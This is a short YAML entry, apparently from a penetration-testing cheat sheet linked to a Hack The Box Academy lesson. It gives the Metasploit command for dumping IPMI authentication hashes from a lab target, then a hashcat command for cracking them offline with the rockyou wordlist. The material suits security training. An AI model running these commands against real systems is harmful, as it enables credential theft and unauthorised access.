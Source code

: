 ```yaml
---
description: |
  Use the Metasploit IPMI hash dumping module to retrieve authentication hashes from the target IPMI service. 
  This module is useful for gathering hash data, which can then be used for offline password cracking with tools such as hashcat.
  
  Command Reference:
  
      Target IP: 10.10.10.1

command: |
  msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes

code: |
  hashcat -m 7300 --username hash ~/Downloads/rockyou.txt

items:
  - No_Creds
  - Hash
services:
  - IPMI
OS:
  - Linux
  - Mac
attack_types:
  - Enumeration
references:
  - https://academy.hackthebox.com/module/112/section/2117
---
```


